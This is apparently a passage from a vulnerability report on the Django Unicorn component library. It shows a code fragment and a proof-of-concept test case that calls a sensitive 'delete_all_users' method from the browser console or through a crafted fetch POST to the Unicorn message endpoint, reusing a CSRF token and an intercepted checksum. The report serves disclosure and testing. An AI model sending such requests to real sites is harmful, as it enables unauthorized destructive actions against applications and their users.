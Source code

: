 ```python
        call = tree.body[0].value
        method_name = call.func.id
        args = [eval_value(arg) for arg in call.args]
        kwargs = {kw.arg: eval_value(kw.value) for kw in call.keywords}

    # Add "$" back to special functions
    if is_special_method:
        method_name = f"${method_name}"

    return method_name, tuple(args), MappingProxyType(kwargs)
```

### Security Test Case
1. Create a Unicorn component with a sensitive method:
   ```python
   class AdminComponent(UnicornView):
       def delete_all_users(self):
           # Code to delete all users
           pass

       def get_user_list(self):
           # Code to get user list
           return User.objects.all()
   ```

2. Render this component in a Django template:
   ```html
   {% unicorn 'admin-component' %}
   ```

3. Open the browser's developer console and execute:
   ```javascript
   Unicorn.call('admin-component', 'delete_all_users');
   ```

4. Alternatively, create an HTML page with JavaScript that sends an AJAX request to the Unicorn endpoint:
   ```javascript
   // Get CSRF token from the target site
   const csrfToken = document.querySelector('[name=csrfmiddlewaretoken]').value;

   fetch('/unicorn/message/path.to.component.ComponentName', {
     method: 'POST',
     headers: {
       'Content-Type': 'application/json',
       'X-CSRFToken': csrfToken
     },
     body: JSON.stringify({
       "actionQueue": [
         {
           "payload": {"name": "delete_all_users()"},
           "type": "callMethod"
         }
       ],
       "data": {}, // Component data
       "checksum": "valid_checksum_here", // Get this by intercepting a legitimate request
       "id": "component_id_here", // Component ID from the DOM
       "epoch": Date.now() / 1000
     })
   })
   .then(response => response.json())
   .then(data => console.log(data));
   ```
